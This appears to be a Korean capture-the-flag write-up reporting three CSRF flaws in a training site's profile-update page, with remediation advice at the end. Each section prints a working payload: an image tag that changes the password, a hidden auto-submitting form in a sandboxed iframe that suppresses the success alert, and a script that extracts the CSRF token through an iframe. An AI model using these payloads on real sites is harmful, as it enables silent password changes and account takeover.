 # CSRF Report

## 개요

본 보고서는 웹 애플리케이션 내 특정 기능에서 발견된 **Cross-Site Request Forgery (CSRF)** 취약점에 대한 분석을 목적으로 작성되었습니다.

총 **3건의 개별 CSRF 취약점이 발견**되었으며, 각각 다른 기능에서 발생하였습니다.

해당 취약점은 공격자가 피해자의 브라우저를 통해 의도하지 않은 요청을 전송하도록 유도함으로써, 설정 변경, 비밀번호 변경 등의 악의적인 행위가 발생할 수 있습니다.

또한 관리자 계정이 공격 대상일 경우 간접적인 권한 상승 효과도 발생할 수 있습니다.

---

## 요약

- 총 발견된 CSRF 취약점: 3건
- 주요 위험 행위:
  - 비밀번호 무단 변경
  - 관리자 기능 요청 유도 가능성
- 보안 취약 원인: 
  - **CSRF Token 미사용**: 일부 기능은 CSRF Token 없이 요청이 처리되어 외부 사이트에서 임의 요청을 전송할 수 있음
  - **Referer 검증 미비**: 요청의 출처에 대한 서버 측 검증이 없어 외부 출처에서도 내부 요청이 가능함
  - **CSRF Token 우회 가능**: 특정 기능은 CSRF Token을 사용하지만, 토큰이 HTML 내에 그대로 노출되어 있으며 `iframe`을 통해 추출 및 악용이 가능함

---

## 내용

### CSRF 1

- 문제 이름: **GET Admin 1**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_1/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **GET 기반 CSRF**
- 취약점 심각도: **HIGH**

- 설명:
해당 기능은 사용자 정보를 변경하는 요청을 **HTTP GET 방식으로도 처리하고 있으며**, `CSRF Token`이나 `Referer` 검증 없이
파라미터만으로 사용자의 정보를 변경할 수 있어 외부 요청에 취약한 구조를 가짐.

![CSRF1 burp suite](./screenshots/csrf1_burp_suite.png)

- 공격자는 게시판 기능을 이용해 다음과 같이 **사회공학적 미끼 제목**과 함께 CSRF 공격용 이미지를 삽입함.

페이로드:
```html
<img src="http://ctf.segfaulthub.com:7575/csrf_1/mypage_update.php?id=&info=&pw=1234">
```

![CSRF1 post](./screenshots/csrf1_post.png)


- **공격용 게시글 목록 화면 (페이로드 노출 없음)**  
사용자는 일반 게시글처럼 보여 클릭 유도됨.

![CSRF1 list](./screenshots/csrf1_list.png)

- 관리자가 로그인된 상태로 해당 게시글을 조회할 경우,  
**삽입된 이미지 태그를 통해 자동으로 GET 요청이 전송되며, 사용자의 비밀번호가 공격자가 지정한 값으로 변경됨**.

---

### CSRF 2

- 문제 이름: **GET Admin 2**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_2/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **POST 기반 CSRF**
- 취약점 심각도: **HIGH**

- 설명: 해당 기능은 POST 요청으로 사용자 정보를 변경하는 API를 제공하고 있으나, 서버는 `CSRF Token` 검증 또는 `Referer` 검증 없이 요청을 처리함.
이로 인해 공격자가 외부 HTML 문서 내에 자동으로 전송되는 `form`을 작성할 경우, 피해자의 세션을 이용한 비밀번호 변경이 가능함.

![CSRF2 burp suite](./screenshots/csrf2_burp_suite.png)

- 요청 파라미터 중 `id` 값을 빈 문자열(`""`)로 설정하더라도,  
서버는 이를 별도 검증 없이 **현재 로그인된 사용자 세션 기준으로 자동 대체 처리**하는 구조를 가지고 있음.


![CSRF2 post](./screenshots/csrf2_post.png)

페이로드:
```html
<iframe name="frame" sandbox="allow-forms allow-same-origin" style="display:none"></iframe>

<form action="http://ctf.segfaulthub.com:7575/csrf_2/mypage_update.php" method="POST" target="frame">
  <input type="hidden" name="id" value="">
  <input type="hidden" name="info" value="">
  <input type="hidden" name="pw" value="12345">
</form>

<script>
  document.forms[0].submit();
</script>
```

- 이로 인해 공격자는 사용자의 ID를 몰라도, 단순히 게시글을 열게 만드는 것만으로 **그 사용자의 비밀번호를 변경시킬 수 있으며**,
같은 게시글을 여러 사용자가 열 경우, 
**각각 자신의 계정 기준으로 비밀번호가 바뀌는 광범위한 피해가 발생할 수 있음.**

- 또한 공격자는 `<iframe>`에 `sandbox="allow-forms allow-same-origin"` 옵션을 설정함으로써,  
폼 전송은 허용하면서도 서버 응답 내 JavaScript(alert 등)를 실행하지 않도록 설정 함.

따라서 피해자는 **회원 정보 수정에 성공하셨습니다!** 와 같은 안내 알림이 나타나지 않아,  
**비밀번호가 변경되었음에도 공격 사실을 인지하지 못한 채 CSRF 공격에 노출됨.**

---

### CSRF 3

- 문제 이름: **GET Admin 3**
- 취약점 위치: `http://ctf.segfaulthub.com:7575/csrf_3/mypage.php` (회원정보 수정 페이지)
- 취약점 유형: **CSRF Token 우회**
- 취약점 심각도: **HIGH**

- 설명:  
해당 기능은 CSRF Token이 적용되어 있지만, `mypage.php` 페이지를 통해 토큰 값을 클라이언트에 노출시키는 구조이며, 서버는 전달된 토큰 값의 유효성만 검증한 뒤 사용자 정보를 수정함.

공격자는 이를 악용하여 다음과 같이 **토큰 값을 사전에 iframe을 통해 추출 후**, 해당 값을 포함한 POST 요청을 자동으로 생성하여 사용자의 정보(비밀번호 등)를 변경할 수 있음.


![CSRF3 burp suite](./screenshots/csrf3_burp_suite.png)

- 공격자는 다음과 같은 구조의 HTML을 게시글에 삽입하여, **사용자가 게시글을 열었을 때 자동으로 토큰 추출 → 정보 변경이 발생하도록 구성**함.

페이로드:
```html
<iframe src="http://ctf.segfaulthub.com:7575/csrf_3/mypage.php?user=user101" id="frame1" style="display:none"></iframe>
<iframe name="frame2" sandbox="allow-forms allow-same-origin" style="display:none"></iframe>
<form action="http://ctf.segfaulthub.com:7575/csrf_3/mypage_update.php" method="POST" target="frame2" style="display:none">
<input name="id" value="">
<input name="info" value="">
<input name="pw" value="123">
<input name="csrf_token" value="">
</form>

<script>
    window.onload = function () {
        const html_frame = document.getElementById("frame1").contentWindow.document;
        const token = html_frame.querySelector('input[name="csrf_token"]').value;
        document.querySelector('input[name="csrf_token"]').value = token;
        document.forms[0].submit();
    }
</script>
```

![CSRF3 post](./screenshots/csrf3_post.png)

- 공격자 페이지에는 시각적으로 아무 것도 표시되지 않으며,
`form`, `iframe` 모두 `display:none` 처리되어 사용자는 공격 사실을 인지할 수 없음.

> 클라이언트 측에서 CSRF Token이 노출되는 구조에서는, 공격자가 `iframe` 등을 이용해 이를 추출하고 자동 요청을 구성함으로써 **Token 기반 방어 로직 또한 우회할 수 있음.**

---

## 대응 방안

- CSRF 방지를 위해 다음과 같은 보안 조치가 필요함:

  - 모든 상태 변경 요청에는 CSRF Token을 포함하고, 해당 토큰을 서버 측에서 검증할 것
  - Referer 또는 Origin 헤더를 기반으로 요청 출처를 검증할 것
  - CSRF Token은 HTML 내에 직접 노출하지 않고, JavaScript 접근이 불가능한 httpOnly Cookie 또는 서버 렌더링 방식으로 처리할 것
  - 요청 메서드(GET → POST) 및 민감한 정보 변경 로직의 접근 제한 강화

- 특히 관리자 계정의 기능 접근 시, CSRF 취약점을 통해 권한 상승이 가능한 구조가 발견되었으므로  
**즉시 수정 및 보완 조치가 필요함**










